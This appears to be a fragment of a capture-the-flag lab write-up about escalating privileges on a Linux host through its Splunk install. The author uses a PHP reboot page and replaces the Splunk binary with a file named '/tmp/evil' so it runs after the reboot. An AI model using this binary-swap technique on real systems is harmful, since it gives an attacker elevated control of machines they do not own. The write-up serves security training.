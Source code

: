 ```c
/opt/splunk/var/log/splunk/conf.log


-r--r--r-- 1 mark mark 325 Jan 25  2018 /opt/splunk/etc/modules/input/exec/config.xml
-r--r--r-- 1 mark mark 339 Jan 25  2018 /opt/splunk/etc/modules/input/FIFO/config.xml
-r--r--r-- 1 mark mark 579 Jan 25  2018 /opt/splunk/etc/modules/input/fschangemanager/config.xml
-r--r--r-- 1 mark mark 1509 Jan 25  2018 /opt/splunk/etc/modules/input/stashparsing/config.xml
-r--r--r-- 1 mark mark 1178 Jan 25  2018 /opt/splunk/etc/modules/input/structuredparsing/config.xml
-r--r--r-- 1 mark mark 787 Jan 25  2018 /opt/splunk/etc/modules/input/tailfile/config.xml
-r--r--r-- 1 mark mark 729 Jan 25  2018 /opt/splunk/etc/modules/input/TCP/config.xml
-r--r--r-- 1 mark mark 397 Jan 25  2018 /opt/splunk/etc/modules/input/UDP/config.xml
-r--r--r-- 1 mark mark 272 Jan 25  2018 /opt/splunk/etc/modules/internal/scheduler/config.xml
-r--r--r-- 1 mark mark 4135 Jan 25  2018 /opt/splunk/etc/modules/parsing/config.xml


```
![](https://i.imgur.com/dA946Zz.png)
![](https://i.imgur.com/xHhpGUB.png)
![](https://i.imgur.com/7aLHwfW.png)

- This web script will reboot the splunk
```php
<?php

if (isset($_GET['reboot']) && $_GET['reboot'] == 1) {
   echo shell_exec('sudo /sbin/reboot');
}
?>
<html>
<head>
</head>
<body>
<h1>Reboot server</h1>
<p>If the splunk instance is crashed use the link below to issue a reboot of the VM</p>
<p style="color: red"><b>Warning:</b> This is not part of Offshore challenge, it is a way to recover a known issue</p>
<br>
<br>
<h3><a href="z">Reboot Server</a></h3>
```
![](https://i.imgur.com/S8SkRax.png)
- I tried it and it made the server restart. so am planning the change the splunk binary and restart the pc
```sh
(remote) mark@NIX01:/$ ls -la /opt/splunk/bin/splunk
-r-xr-xr-x 1 mark mark 477904 Jan 25  2018 /opt/splunk/bin/splunk
(remote) mark@NIX01:/$ mv /opt/splunk/bin/splunk /opt/splunk/bin/splunk.BAK
(remote) mark@NIX01:/$ mv /tmp/evil /opt/splunk/bin/splunk
```
![](https://i.imgur.com/JUgj9Bn.png)
/opt/splunk/bin/splunk
```shell
(remote) mark@NIX01:/tmp$ cat /usr/local/sbin/splunk-check.sh
# Ippsec's Splunk Monitoring Script

splunk_home=/opt/splunk

splunk_err=$(tail $splunk_home/var/log/splunk/splunkd.log | grep -a 'Read Timeout while connecting')

restart_splunk=0
```